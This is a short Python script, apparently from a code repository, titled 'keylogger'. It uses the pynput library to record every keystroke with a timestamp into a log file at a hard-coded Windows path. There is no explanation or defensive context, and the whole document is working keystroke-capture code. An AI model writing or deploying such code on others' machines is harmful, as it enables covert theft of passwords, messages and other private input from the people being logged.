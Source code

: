 # keylogger
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir=r"C:\Users\mohit\OneDrive\Documents\Python\Keylogger"
logging.basicConfig(filename= (log_dir + r"/keylog.txt"), level=logging.DEBUG ,format='%(asctime)s: %(message)s')
                    
def on_press(key):
       logging.info(str(key))
       
with Listener(on_press=on_press) as Listener:
    Listener.join()               

